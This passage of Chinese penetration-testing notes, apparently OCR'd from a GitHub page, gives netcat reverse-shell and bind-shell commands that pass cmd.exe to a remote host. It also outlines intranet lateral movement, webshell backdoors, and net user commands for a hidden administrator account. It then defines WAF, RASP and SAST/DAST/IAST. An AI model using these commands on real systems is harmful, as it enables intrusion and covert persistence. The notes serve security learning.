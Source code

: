 nc-lvp 4444
在内网主机上执行：
nc-e cmd.exe 公网主机ip4444
成功之后即可得到一个内网主机shell
正向连接
远程主机上执行：
nc-l -p 4444 -t -e cmd.exe
本地主机上执行：
nc-vv 远程主机ip4444
成功后，本地主机即可远程主机的一个shell
然后就是对内网进行渗透了，可以用主机漏洞扫描工具（nessus,x-scan等）进行扫描看是否有可用漏洞，可用msf进行利用，或者用nmap扫描存活主机及开放端口，可用hydra进行端口爆破或者用msf对端口对应漏洞得到shell拿下内网留后门
## 留后门
对于网站上传一句话木马，留下后门
对于windows用户可用hideadmin创建一个超级隐藏账户
手工：
netuser test$ 123456 /add
netlocalgroup administrators test$ /add
这样的话在cmd命令中看不到，但在控制面板可以看到，还需要改注册表才能实现控制版面也看不到。
# 安全防护关键词
## WAF
Web应用防护系统（也称为：网站应用级入侵防御系统。英文：Web Application Firewall，简称： WAF）。利用国际上公认的一种说法：Web应用防火墙是通过执行一系列针对HTTP/HTTPS的安全策略来专门为Web应用提供保护的一款产品。
## RASP
“Runtime application self-protection”一词，简称为RASP。它是一种新型应用安全保护技术，它将保护程序像疫苗一样注入到应用程序中，应用程序融为一体，能实时检测和阻断安全攻击，使应用程序具备自我保护能力，当应用程序遭受到实际攻击伤害，就可以自动对其进行防御，而不需要进行人工干预。

RASP技术可以快速的将安全防御功能整合到正在运行的应用程序中，它拦截从应用程序到系统的所有调用，确保它们是安全的，并直接在应用程序内验证数据请求。Web和非Web应用程序都可以通过RASP进行保护。该技术不会影响应用程序的设计，因为RASP的检测和保护功能是在应用程序运行的系统上运行的。
## IAST/SAST/DAST
交互式应用程序安全测试（Interactive Application Security Testing），是白盒测试(SAST)，黑盒测试(DAST)结合优点而成的灰盒测试,IAST的插桩技术在java里就是开始一个agent发现有漏洞的执行就报告，比如sql注入，依赖java包的版本检测等。.
在安全测试中都会遇到SAST(Static Application Security Testing )、DAST(Dynamic Application Security Testing )、IAST(Interactive Application Security Testing )的概念.
| 比较项         | SAST             | DAST             | IAST             |
| ---------------- | ------------------ | ------------------ | ------------------ |
| 扫描对象       | 源代码           | 运行时的应用程序 | 运行时的应用程序 |
| 扫描准备       | 简单             | 复杂             | 复杂             |
| 扫描速度       | 快               | 很慢             | 慢               |
| 误报率         | 高               | 低               | 低               |
| 覆盖率         | 高               | 低               | 中               |
| 对环境的影响   | 无               | 有               | 有               |
| 测试方法       | 白盒             | 黑盒             | 黑盒             |
| 与开发语言关系 | 有关             | 无关             | 有关             |
| CI/CD集成      | 支持             | 不支持           | 不支持           |
| 支持测试阶段   | 研发、测试、上线 | 测试、上线       | 测试、上线       |
| 部署           | 简单             | 简单             | 复杂             |
